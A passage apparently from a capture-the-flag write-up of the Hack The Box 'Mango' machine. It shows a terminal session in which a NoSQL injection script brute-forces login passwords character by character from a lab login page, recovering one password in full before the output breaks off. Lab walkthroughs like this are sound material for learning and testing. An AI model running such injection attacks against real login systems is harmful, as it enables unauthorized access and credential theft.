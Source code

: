 Great! The exploit was able to grab 2 usernames. Lets use the same exploit to grab some passwords now:

```text
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ python nosqli-user-pass-enum.py -m post -up username -pp password -op login:login -u http://staging-order.mango.htb/ -ep password
No pattern starts with '0'
No pattern starts with '1'
No pattern starts with '2'
No pattern starts with '3'
No pattern starts with '4'
No pattern starts with '5'
No pattern starts with '6'
No pattern starts with '7'
No pattern starts with '8'
No pattern starts with '9'
No pattern starts with 'a'
No pattern starts with 'b'
No pattern starts with 'c'
No pattern starts with 'd'
No pattern starts with 'e'
No pattern starts with 'f'
No pattern starts with 'g'
Pattern found that starts with 'h'
Pattern found: h3
Pattern found: h3m
Pattern found: h3mX
Pattern found: h3mXK
Pattern found: h3mXK8
Pattern found: h3mXK8R
Pattern found: h3mXK8Rh
Pattern found: h3mXK8RhU
Pattern found: h3mXK8RhU~
Pattern found: h3mXK8RhU~f
Pattern found: h3mXK8RhU~f{
Pattern found: h3mXK8RhU~f{]
Pattern found: h3mXK8RhU~f{]f
Pattern found: h3mXK8RhU~f{]f5
Pattern found: h3mXK8RhU~f{]f5H
password found: h3mXK8RhU~f{]f5H
No pattern starts with 'i'
No pattern starts with 'j'
No pattern starts with 'k'
No pattern starts with 'l'
No pattern starts with 'm'
No pattern starts with 'n'
No pattern starts with 'o'
No pattern starts with 'p'
No pattern starts with 'q'
No pattern starts with 'r'
No pattern starts with 's'
Pattern found that starts with 't'
Pattern found: t9
Pattern found: t9K
Pattern found: t9Kc
Pattern found: t9KcS
Pattern found: t9KcS3
Pattern found: t9KcS3>
Pattern found: t9KcS3>!
Pattern found: t9KcS3>!0
Pattern found: t9KcS3>!0B
Pattern found: t9KcS3>!0B#
Pattern found: t9KcS3>!0B#2
```